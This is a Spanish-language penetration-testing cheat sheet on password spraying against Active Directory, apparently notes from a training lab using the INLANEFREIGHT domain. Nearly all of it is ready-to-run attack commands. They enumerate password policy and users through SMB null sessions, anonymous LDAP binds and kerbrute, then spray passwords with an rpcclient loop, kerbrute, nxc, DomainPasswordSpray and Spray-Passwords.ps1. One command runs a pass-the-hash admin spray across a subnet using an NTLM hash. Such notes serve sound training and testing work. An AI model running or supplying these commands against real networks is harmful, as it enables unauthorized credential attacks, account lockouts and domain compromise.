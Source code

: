 #passwordSpraying
## Linux
### Enumerar política de contraseñas

- **`nxc` (SMB - 445):**
	```bash
	# Requiere credenciales
	nxc smb $target -u 'username' -p 'password!' --pass-pol
	```

- **`rpcclient` (SMB - 445, 139):**
	```bash
	rpcclient -U 'username%password' $target
	# o null session
	rpcclient -U "" -N $target
	# Una vez dentro, podemos obtener informacíon básica del dominio con
	rpcclient $> querydominfo
	# Obtener política de contraseñas
	rpcclient $> getdompwinfo
	```

- **`enum4linux` (SMB - 445, 139):**
	```bash
	enum4linux -P $target
	```
`-P` : password police
- **enum4linux-ng (SMB - 445, 139):**
	```bash
	# Con credenciales
	enum4linux-ng -P $target -u $username -p $password -oA ilfreight
	# Null session
	enum4linux-ng -P $target -oA ilfreight
	```

- **ldapsearch (LDAP - 389, 636):**
	```bash
	# Con credenciales
	ldapsearch -h $target -D "CN=username,DC=INLANEFREIGHT,DC=LOCAL" -w 'password' -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
	# Anonymous bind
	ldapsearch -h $target -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
	```

### Crear User List

- **`enum4linux` (SMB - 445, 139):**
	```bash
	# Sin credenciales
	enum4linux -U $target | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
	# Con credenciales
	enum4linux -U -u <user> -p <pass> $target | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
	```

- **`rpcclient`:**
	```bash
	# sin credenciales
	rpcclient -U "" -N 172.16.5.5
	# Con credenciales
	rpcclient -U "username" 172.16.5.5
	# Una vez en sesión
	rpcclient $> enumdomusers
	```

- **`nxc` SMB ( `--users`):**
	```bash
	nxc smb $target -u <username> -p <password> --users
	```
	La flag `--users` nos indica el número de intentos fallidos y fecha de último intento fallido
- **`ldapsearch` ( Anonymous Bind):**
	```bash
	ldapsearch -h $target -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
	```

- **`windapsearch`:**
	```bash
	./windapsearch.py --dc-ip $target -u "" -U
	```

- **`Kerbrute`:**
	```bash
	kerbrute userenum -d inlanefreight.local --dc $target /opt/jsmith.txt
	# otra lista interesante: /usr/share/wordlists/dirb/others/names.txt
	```

### Ejecutar Password Spraying
- **One-liner bash (SMB - 445, 139):**
	```bash
	for u in $(cat valid_users.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" $target | grep Authority; done
	```

- **Kerbrute (Kerberos - 88):**
	```bash
	kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
	```

- **nxc (SMB):**
	```bash
	sudo nxc smb $target -u valid_users.txt -p Password123 --continue-on-success | grep +
	```

- **Local Admin Spraying:**
	```bash
	sudo nxc smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
	```
	
## Windows
### Enumerar política de contraseñas
- **Null Sessions (net use - 445, 139):**
	El siguiente comando muestra si acepta null sessions
	```
	net use \\DC01\ipc$ "" /u:""
	```
- **net.exe:**
	```powershell
	net accounts
	```
	Si  obtenemos el siguiente valor `Lockout threshold: Never` significa que podemos ejecutar fuerza bruta sin problema. 

- **Powerview:**
	```powershell
	import-module .\PowerView.ps1
	Get-DomainPolicy
	```

### Ejecutar Password Spraying
- Spray-Passwords.ps1
	```powershell
	# Ejecuta password spraying contra todas las cuentas del dominio
	.\Spray-Passwords.ps1 -Pass Nexus123!
	# Ejecuta password spraying contra todas las cuentas con permisos administrativos
	.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
	```
- **DomainPasswordSpray (Windows AD):**
	```powershell
	Import-Module .\DomainPasswordSpray.ps1
	Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
	```
